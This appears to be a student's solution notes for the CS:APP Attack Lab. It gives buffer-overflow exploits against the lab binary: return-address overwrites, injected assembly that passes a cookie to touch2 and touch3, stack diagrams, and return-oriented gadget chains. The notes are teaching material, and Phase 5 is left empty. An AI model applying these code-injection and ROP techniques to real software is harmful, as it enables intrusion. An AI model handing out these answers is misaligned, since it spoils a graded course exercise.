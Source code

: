 ## Phase 1

0x401967 --> 0x4017c0

## Phase 2

Set return address of getbuf() to next byte in $rsp, i.e. ($rsp) = $rsp + 8, which point to following instructions:

```
pushq $0x4017ec       # push address of touch2() as return value
movq $0x59b997fa,%rdi # pass cookie to first argument of touch2()
ret                   # return to touch2()
```

```
movq $0x59b997fa,%rdi
ret
```

## Phase 3

byte sequence of string representation of 0x59b997fa is

```
35 39 62 39 39 37 66 61
```

### Solution 1

Stack:

```
+------------------------+
| STRING                 |
|                        |
| INSTRUCTION <<---------------+
|                        |     |
| RETURN1 ---------------------+
+------------------------+
```

Instructions:

```
pushq $0x4018fa
leaq 0x16(%rsp),%rdi
ret
```

### Solution 2

Stack

```
STRING  <--+
           |
leaq 0x16(%rsp),%rdi  <------+
                             |
ADDR2   -> touch3()          |
                             |
ADDR1 -----------------------+
```

Instructions:

```
leaq 0x16(%rsp),%rdi
ret
```

## Phase 4

Stack:

```
ADDR3       --> touch2()
ADDR2       --> movl %eax,%edi
0x59b997fa
ADDR1       --> popq %rax
```

## Phase 5

## Reference

In `farm.d`, there are

```
89 c7 90    # movl %eax,%edi -> 0x4019c6
89 c2 90    # movl %eax,%edx
89 ce 90    # movl %ecx,%esi
89 e0 90    # movl %exp,%eax

48 89 c7 90 # movq %rax,%rdi
48 89 e0 90 # movq %rsp,%rax

58 90       # popq %rax      -> 0x4019ab

20 c0       # andb %al,%al
84 c0       # testb %al,%al
38 c0       # cmpb %al,%al
```
